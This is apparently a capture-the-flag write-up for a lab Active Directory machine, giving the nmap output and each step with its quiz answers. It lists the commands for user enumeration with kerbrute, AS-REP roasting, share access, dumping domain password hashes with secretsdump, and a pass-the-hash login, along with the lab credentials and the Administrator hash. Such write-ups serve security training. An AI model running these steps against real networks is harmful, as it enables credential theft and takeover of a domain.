










First we will scan the machine using nmap:
```sh
sudo nmap -A -T4 -sV -Pn 10.81.187.9
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-24 16:22 IST
Nmap scan report for 10.81.187.9
Host is up (0.19s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-24 10:53:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2026-01-23T10:52:32
|_Not valid after:  2026-07-25T10:52:32
|_ssl-date: 2026-01-24T10:53:42+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-24T10:53:33+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=1/24%OT=53%CT=1%CU=44775%PV=Y%DS=3%DC=T%G=Y%TM=6974A4B
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%ISR
OS:=10C%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=FC%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=
OS:S%TS=U)SEQ(SP=FF%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M4E8NW8NN
OS:S%O2=M4E8NW8NNS%O3=M4E8NW8%O4=M4E8NW8NNS%O5=M4E8NW8NNS%O6=M4E8NNS)WIN(W1
OS:=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O
OS:=M4E8NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=
OS:0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 3 hops
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-24T10:53:33
|_  start_date: N/A

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   222.12 ms 192.168.128.1
2   ...
3   222.34 ms 10.81.187.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.95 seconds
```

## SMB Enumeration

I can see that ports 139 and 445 are open. Ports 139 and 445 are used for **authentication and file sharing**. There are multiple tools available to enumerate port 139/445. We can start by using **enum4linux** to find information about shares on the target.
```sh
enum4linux -a IP
```



and we will solve the first question:

Question: What Tool will allow us to enumerate port 139/445?  
Answer: enum4linux

and we can solve the next one:

Question: What is the NetBOIS-Domain name of the machine ?  
Answer: THM-AD

and we will solve the third question:

Question: What invalid TLD do people commonly use for their Active Directory Domain?  
Answer: .local

## Kerberos Enumeration & Exploitation

Kerberos is a key authentication service within Active Directory that runs on port 88. We can use the tool **kerbrute** to enumerate users, which can be used to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication.
the user list has been downloaded from the page that they give us:
```sh
kerbrute userenum --dc 10.81.187.9 -d THM-AD valid_users.txt
```



we can now answer the first two question:

Question: What command within Kerbrute will allow us to enumerate valid usernames ?  
Answer: userenum

Question: What notable account is discovered ?  
Answer: svc-admin

Question: what is the other notable account is discovered?  
Answer: backup

#### now we will move on to abusing Kerberous part

We can see that there are 16 accounts discovered, including a service admin account (i.e. **svc-admin**) and a **backup** account, which are of particular interest. Using the newly discovered list of accounts, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.**

> ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

We can retrieve Kerberos tickets using a tool called “**GetNPUsers.py**” in [Impacket](https://github.com/SecureAuthCorp/impacket). This allows us to query ASREProastable accounts from the Key Distribution Center. The only thing that’s necessary to query accounts is a valid set of usernames, which we enumerated previously via Kerbrute.

After running “**GetNPUsers.py**”, I can see that you can query a ticket with no password from the svc-admin user account.
```sh
impacket-GetNPUsers THM-AD/svc-admin -dc-ip 10.81.187.9
```


as we can see we got a TGT for svc-admin.

we will put it in a file called svc_hash.txt to crack it.
from here we will answer the next questions:

Question: We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?  
Answer: svc-admin

Question: Looking at the Hashcat Example Wiki page, what type of Kerberos hash did we retrieve from the KDC?  
Answer : Kerberos 5 AS-REP etype 23

Question: What mode is the hash?  
Answer: 18200

we will try to crack the password using John the ripper.



Now we cracked the password let’s answer the next question:

Question: Now crack the hash with the modified password list provided, what is the user accounts password?  
Answer: management2005

we will try to solve Back to the Basics

## SMB Enumeration (Cont.)

Using the svc-admin credentials, I can now further enumerate the shares on the DC. I can use the tool **smbclient** to list the shares on the DC.
```sh
smbclient -L //10.81.187.9 -U 'svc-admin'
```



we will answer the questions:

Question: What utility can we use to map remote SMB shares?  
Answer: smbclient

Question: Which option will list shares ?  
Answer: -L

and as we see in the screen above

Question: How many remote shares is the server listing?  
Answer: 6

we will access the file share backup.

```sh
smbclient \\\\10.81.187.9\\backup -U 'svc-admin'
```



and it contain the following

(YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw)

we will answer the next question:

Question: What is the content of the file ?  
Answer: YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

this looks like a base64 encoding let’s try to decode it

Question: Decoding the contents of the file, what is the full contents?  
Answer: backup@spookysec.local:backup2517860

## let’s try to solve the Domain Privilege Escalation
According to the challenge description, the backup account has a unique permission that allows **all Active Directory changes to be synced with this user account,** including password hashes. We can use a tool called “**secretsdump.py**” within Impacket to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
The “**secretsdump.py**” uses the DRSUAPI method to get NTDS.DIT secrets.

> The Ntds. dit file is a database that stores Active Directory data, including information about user objects, groups and group membership. Importantly, the file also **stores the password hashes for all users in the domain**.

This tool dumps the NTLM hashes for all the users on the DC machine.

we will try to dump the hashes and secrets using secretsdump.py
```sh
impacket-secretsdump THM-AD/backup:backup2517860@10.81.187.9 -dc-ip 10.81.187.9
```




and we got the hashes

Question: What method allowed us to dump NTDS.DIT?  
Answer: DRSUAPI

Question: What is the Administrator NTLM hash?  
Answer: 0e0363213e37b94221497260b0bcb4fc

we can answer the next question

Question: What method of attack could allow us to authenticate as the user without the password?  
Answer: Pass the Hash

## Pass The Hash (PtH) Attack

An attack method that could allow us to authenticate as the user without the password is the **Pass The Hash** attack.

> Pass the Hash attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems.

There are multiple tools that can be used to perform a pass the hash attack, including **Evil-WinRM**, **crackmapexec**, and **psexec.py**. I had difficulty getting Evil-WinRM to work but was able to use psexec.py to get a shell with the Administrator NTLM hash.

```sh
evil-winrm -i 10.81.187.9 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```






